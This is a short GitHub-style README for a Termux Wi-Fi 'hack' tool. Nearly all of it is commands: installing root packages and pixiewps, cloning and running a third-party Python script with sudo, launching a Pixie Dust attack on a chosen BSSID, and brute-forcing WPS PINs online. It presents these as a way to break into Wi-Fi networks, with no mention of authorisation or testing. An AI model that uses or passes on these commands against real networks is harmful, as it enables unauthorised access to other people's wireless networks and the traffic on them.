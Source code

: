 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://ibb.co/C6qj408"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/itzovi/NeelXViper
$ cd NeelXViper
$ chmod +x Viper.py
$ sudo python Viper.py --help
```

#### Example : `sudo python Viper.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Viper.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Viper.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Viper.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
